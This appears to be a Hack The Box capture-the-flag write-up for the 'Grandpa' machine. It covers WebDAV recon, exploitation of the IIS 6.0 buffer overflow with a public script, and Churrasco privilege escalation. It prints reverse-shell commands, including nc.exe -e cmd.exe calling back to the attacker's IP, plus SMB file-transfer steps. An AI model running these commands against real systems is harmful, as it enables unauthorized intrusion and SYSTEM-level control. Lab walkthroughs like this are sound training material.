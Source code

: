# Grandpa [HTB](https://app.hackthebox.com/machines/13)
![grandpa-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/grasndpa-01.png)

## Recon

After adding the target to `/etc/hosts`, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 grandpa.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/ports-02.png)

A single HTTP port. Let's perform service and version detection:

```bash
nmap -p 80 -sCV grandpa.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/nmap-res-03.png)

We can see that `nmap` has identified that [WebDAV](https://en.wikipedia.org/wiki/WebDAV) is enabled on this server. In short, `WebDAV` are extensions to the HTTP protocol that allows authorized users to create, change and move documents on the server. Thus, allowing the server to be viewed as a modifiable, collaborative medium instead of a read-only medium. 

In terms of a pentest, we want to try and leverage the WebDAV to upload and execute files on the server. Usually, to connect to the WebDAV server we need valid credentials, so if we dont have any we might need to [brute force](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#http-basic-auth). Other then that, we need to determine which methods are supported by the server, and which file extensions can be uploaded, etc. 

We can run tools like `davtest` and `curl` to enumerate the WebDAV server further. `HackTricks` has a nice [overview](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) we can follow.

Based on the `nmap` scan we can also see that the web server is an IIS 6.0. This is relevant, because there is a buffer-overflow [exploit](https://www.exploit-db.com/exploits/41738) for IIS 6.0 servers with `WebDAV`, however I want to try and go the manual route first.

### IIS Port 80

Let's start by opening the site at `http://grandpa.htb`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/site-04.png)

Not much to see here. Let's run a directory and file scan using:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://grandpa.htb/FUZZ -e .aspx,.cgi,.txt,.xml,.conf,.html
```

Which brings the following result:

![images-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/images-05.png)

![private-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/private-06.png)

Trying to open the `images` directory eventually ends up with a `403` forbidden code after a couple of redirects. The `_private` directory looks more interesting though, typically WebDAV directories are prefixed with an underscore to try and hide them. 

Let's try to upload a file, We can do this with:

```bash
curl -i -s -k -X PUT http://grandpa.htb/_private -d @test.txt
```

This didnt work I got a `403` error. I tried different file extensions like `html`, and `png`. I tried to upload to different directories like the root of the server and `images` nothing worked. 

I decided to run `davtest` to see if it can cover something I missed:

```bash
davtest -url http://grandpa.htb/_private
```

![davtest-07}(https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-07.png)


Trying different directories does at least connect, but we cant upload or do anything on them 
![davtest-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-08.png)

I think it's safe to conclude that we cant manually exploit the WebDAV itself. Let's go for the buffer-overfow expliot.

### Buffer-Overflow


If we go to the [ExploitDB](https://www.exploit-db.com/exploits/41738) version, we can see that the shellcode launches `cala.exe` instead of a remote shell:

![calc-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/calc-09.png)

We dont want that. We could try to generate our own shellcode and simply replace the one in the script. 
This however is not so simple, and for me it didnt work. 

So I searched online and found [this exploit](https://github.com/danigargu/explodingcan/tree/master). It  has a clean code, and the most stars. This one also specified that the shellcode needs to be alphanumeric encoded, which is interesting. 

At first I tried to get a standard shell without a meterpreter but this didnt work. So instead I followed the instructioins on the github page and generated a meterpreter shellcode. I then setup `multi/handler` and got a shell in meterpreter using `msfconsole`.

This worls, but I want to try and avoid `metasploit` as much as possible, so I searched online for other exploits and I found [this one](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). 

Based on the source code, we can see the expected arguments when invoking the script:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/source-10.png)

We need to specify the remote IP and port of the target, as well as our listener's. But I dont see the exploit creating a thread to catch the reverse shell so we need to do that ourselfes. 

I setup the listener with:

```bash
rlwrap nc -lnvp 443
```

And execute the exploit with:

```bash
python2 exploit.py 10.129.95.233 80 10.10.14.46 443
```

The script hangs for a few seconds, then I get a shell on my `nc`:

![shell-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/shell-11.png)

## Privilege Escalation

Immediately after landing on the machine I start hunting for quick wins. I started by looking for stored credentials with `cmdkey /list` but there are none. 

I then move on to look for user privileges with `whoami /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/privs-12.png)

Here we can see our user has the `Impersonate` privileges enabled, which means we can try to pull of a [potato attack](https://jlajara.gitlab.io/Potatoes_Windows_Privesc). My go to for Windows servers < 2019 is [JuicyPotato](https://github.com/ohpe/juicy-potato), but this is an old Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
``` 

![sysinfo-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/sysinfo-15.png)


So instead let's try [Churrasco](https://github.com/Re4son/Churrasco/). To pull this off we need to transfer the `Churrasco` binary over to the target along with `nc.exe`. This, I typically achive with a python server on my attack machine, and `certutil` to downlaod the files over to the target. 

However on this machine, there is an issue:

![cert-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/cert-err-13.png)

I know my syntax is correct, as it works on virtually any other Windows machine, but here it doens't. Searching this error online, I came to find that we have an issue with the Certificate Revocation List (CRL) being expired. Thus causing applications that need to check the revocation status of certificates issued by this CA to fail.

I tried to find a way to craete a new CRL using `certutil -CRL`, didnt work. I tried to create a new certificate database with `certutil -N -d .`, didnt work. After a few dozen minutes googling I decided to give up on the idea and try powershell instead.

This is where I encountered another issue:

![no-ps-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/no-ps-14.png)

I tried searching for `C:\\Windows\System32\WindowsPowerShell`, there is none. Powershell was intoruced with Windows server 2008, but it was addedd to Windoes server 2003, just not this one I guess. 

Instead let's setup an SMB server on my attack machine using `impacket`:

```bash
impacket-smbserver -smb2support grandpa .
```
 
Then I connect to the share and copy the files over from the target using:

```cmd
net use \\10.10.14.46\grandpa
copy \\10.10.14.46\grandpa\churrasco.exe
copy \\10.10.14.46\grandpa\nc.exe
```

Now we can see both files are on the target:

![files-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/files-15.png)

Now we can test `churrasco` by running `churrasco.exe "whoami"`:

![whoami-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/whoami-16.png)

We can see that is works, and we have command execution as the `SYSTEM`. 

So now we can setup a listener on our Kali machine with:

```bash
rlwrap nc -lnvp 8080
```

And use `nc.exe` to connect back to our machine:

```cmd
churrasco.exe "C:\\windows\Temp\nc.exe -e cmd.exe 10.10.14.46 8080"
```

Which gets us a shell as the `SYSTEM`:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/root-17.png)





